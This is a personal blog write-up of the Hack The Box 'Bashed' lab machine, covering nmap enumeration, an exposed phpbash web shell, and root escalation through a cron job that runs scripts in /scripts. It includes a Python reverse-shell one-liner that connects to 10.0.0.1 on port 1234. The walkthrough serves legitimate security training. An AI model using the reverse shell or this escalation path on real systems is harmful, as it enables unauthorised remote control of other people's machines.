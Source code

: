 ```yaml
---
layout: post
title: "HackTheBox: Bashed write-up"
date: 2018-04-28
excerpt: "A PHP shell on a website is not always a good idea. Neither is a cron job running as root..."
tags: [Hack The Box, Pentesting, PHP, Cron job]
comments: true
feature: https://i.pinimg.com/originals/9e/e1/00/9ee100040ea84faae3159bbf0994f373.jpg
---
```


# Hack The Box: Sense machine write-up

This was a machine regarded as easy by most users, but I must say I found the root part really challenging. Thankfully, I got it in the end.

The machine is running on port 10.10.10.68.

#### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
$ nmap -sV -sC 10.10.10.68
```

Then I get that there's a website in port 80, so I head there.

*Webpage running*

![Img](/assets/posts_details/Bashed/images/webpage.png "Img")

There, I find an article about something called 'phpbash', which is like a web command-line. There's also a github repository: <https://github.com/Arrexel/phpbash>.

Hence, I think there must be some path in the machine where there's a shell. I use dirbuster and after a while I find this path: ``
http://10.10.10.68/dev/phpbash.php
``

After accessing it, I can easily read the user.txt located in ``/home/Arrexel/user.txt``.

#### Root

This is where things get complicated. As I don't like the web shell, I use a python one-liner I got from <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet> to get a connection in my terminal (I listen with netcat and connect in port 1234). The code is:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then, navigating again to the / directory, I find an interesting directory, called scripts (/scripts).

*/ directory*

![Img](/assets/posts_details/Bashed/images/root.png "Img")

However, I cannot either cd or see the contents of the file.

*/scripts directory*

![Img](/assets/posts_details/Bashed/images/scripts.png "Img")

Checking with ```sudo -l``` I find out that I can log in as the scriptmanager user without password, who is the creator of the /scripts directory.

*sudo -l output*

![Img](/assets/posts_details/Bashed/images/sudo-l.png "Img")

Thus, I check whether I can list the files of /scripts with ```sudo -u scriptmanager ls -al /scripts```.

*sudo -l output*

![Img](/assets/posts_details/Bashed/images/ls_as_scriptmanager.png "Img")

Success!!!

Next step is to get a shell as scriptmanager (so I can avoid repeating ```sudo -u scriptmanager```, which is a bit annoying). So I run in the webshell the python one-liner but I precede it with ```sudo -u scriptmanager```. And that's it, I'm scriptmanager.

After inspecting the files of ```/scripts``` directory, I find something odd: the test.py writes a string to test.txt, the later being owned by root. So, after listing the directories of ```/var/spool/cron/crontabs```, I discover there is a cron job running as root.

Maybe, if I create a python script in the ```/scripts``` directory, it gets run as root. So I create a file which contains a shell and listen with netcat. And, a few minutes later, a root shell spawns!

*Root shell and cron job*

![Img](/assets/posts_details/Bashed/images/End.png "Img")

Now I can read the cron job and indeed the system was executing all python scripts in that directory. Machine owned!

<small>_I must say the second part was more difficult than explained, I was stuck at it for over a week until I found out the scriptamanager part and thought about the cron job. However, it was a really rewarding experience._</small>

*Diego Bernal Adelantado*
